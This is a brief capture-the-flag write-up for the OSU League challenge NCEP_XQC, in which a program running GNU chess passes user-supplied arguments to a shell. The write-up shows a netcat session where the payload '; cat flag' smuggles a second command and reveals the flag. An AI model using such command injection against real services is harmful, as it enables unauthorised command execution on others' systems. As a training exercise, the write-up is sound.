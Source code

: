 ```yaml
---
title: "OSU League 2020/2021 - NCEP_XQC Writeup"
date: 2021-4-10
tags:
  - osuleague
  - ctf
  - security
---
```


For this challenge, we are given a simple program that just runs GNU chess.
Right away we can see that it lets us input command line arguments! Maybe we can just do a simple commandline injection to cat the flag:

```
$ nc ctf.ropcity.com 31314
WELCOME TO THE NORWEGIAN COLLEGE OF ELITE PWN
Please enter your custom command line arguments, or just hit enter to begin your training: ; cat flag
executing command: /usr/games/gnuchess -g -m ; cat flag

GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : quit
osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}

finished executing command /usr/games/gnuchess -g -m ; cat flag
```

And we get the flag!  
`osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}`

Welp... Looks like that was it. A good beginner challenge!